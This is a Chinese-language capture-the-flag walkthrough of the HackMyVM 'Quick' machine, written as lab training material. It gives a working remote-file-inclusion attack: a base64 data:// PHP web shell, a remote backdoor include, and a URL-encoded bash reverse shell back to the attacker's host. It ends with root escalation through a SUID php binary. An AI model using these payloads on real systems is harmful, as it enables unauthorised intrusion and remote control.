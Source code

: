 ```yaml
---
{"dg-publish":true,"tags":["HMV","RFI","SUID提权"],"难度":"⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/3.quick/","dgPassFrontmatter":true,"noteIcon":"","created":"2024-11-22T19:13:18.842+08:00","updated":"2024-11-25T01:04:44.526+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/3.quick#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/3.quick#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/3.quick#3. 文件包含\|3. 文件包含]]
- [[24-渗透/HMV/3.quick#4. RFI利用\|4. RFI利用]]
	- [[24-渗透/HMV/3.quick#4.1. 姿势1：data://伪协议法\|4.1. 姿势1：data://伪协议法]]
	- [[24-渗透/HMV/3.quick#4.2. 姿势2: 远程文件包含法\|4.2. 姿势2: 远程文件包含法]]
- [[24-渗透/HMV/3.quick#5. 绕过.php\|5. 绕过.php]]
- [[24-渗透/HMV/3.quick#6. SUID 提权\|6. SUID 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Quick
```


```
难度：⭐️⭐️
```


```
知识点：RFI  SUID提权
```

## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.5
Host is up (0.00050s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
```
目录扫描

```Bash
[17:42:29] 200 -  771B  - /about.php
[17:42:36] 200 -  616B  - /contact.php
[17:42:40] 200 -    1KB - /home.php
[17:42:40] 200 -  630B  - /images/
[17:42:40] 301 -  311B  - /images  ->  http://192.168.9.5/images/
```
## 3. 文件包含

访问一下

about.php

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.001.png)

发现主页有一个about按钮，点击后

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.002.png)

会发现下面的内容就是about.php里面的

结合一下这个Url 

/index.php?page=about

很容易猜测出这里有个是有一个文件包含，这里包含了about.php所以这个界面就显示了/about.php的内容

这里我们就要看是本地包含 还是远程文件包含了

先测试远程文件包含

同网段下的kali新建一个test.php 然后里面随便写点东西

然后用Python启一个http服务

```Bash
echo '123123123' >test.php
python3 -m http.server
```
访问网站

```Bash
http://192.168.9.5/index.php?page=http://192.168.9.3/test
```


```<p>192.168.9.3是kali的ip</p><p>192.168.9.5是靶机ip</p>
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.003.png)

成功实现远程文件包含

## 4. RFI利用
### 4.1. 姿势1：data://伪协议法

好处： 直接传数据，不用包含远程服务器上的文件

参考文章：[Quick](https://d4redevilx.github.io/posts/hackmyvm/quick/#escalaci%C3%B3n-de-privilegios)

payload：

```Bash
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg==
```


```<p>这行 PHP 代码使用数据 URL (data URI) 直接在 PHP 代码中提供数据，而无需访问外部文件。</p><p>- data://  表示这是一个数据url</p><p>- text/plain ：指定数据的 MIME 类型，这里为纯文本。</p><p>- ;base64 使用base64编码 避免特殊字符出错</p><p>- ,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg== 编码数据 解码为
  <?php system($\_GET['cmd']);echo 'ok' ;?></p>
```
执行后成功输出ok

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.004.png)

我们传入参数cmd 执行命令

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.005.png)

成功执行，然后反弹shell，这里需要用url编码

```Bash
cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.9.3%2F1234%200%3E%261%27
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.006.png)

### 4.2. 姿势2: 远程文件包含法

在kali中启动一个服务器

```Bash
python3 -m http.server 1122
```
服务器上写一个系统马门

```Bash
<?php
system($\_GET['cmd']);
echo 'okok');
?>
```
远程包含后门文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.007.png)

这里我们不需要加上.php 因为他会自动给我们补上，

这里也可以绕过这个.php

## 5. 绕过.php

如利用问号 井号绕过等

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.008.png)

使用#绕过时请用url编码

## 6. SUID 提权

```Bash
(remote) www-data@quick:/tmp$ find / -perm -4000 2>/dev/null
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/bin/at
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/php7.0
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
```
这里面发现php具有suid权限

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.009.png)

```Bash
cd /usr/bin
CMD="/bin/sh"
./php7.0 -r "pcntl\_exec('/bin/sh', ['-p']);"
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.010.png)


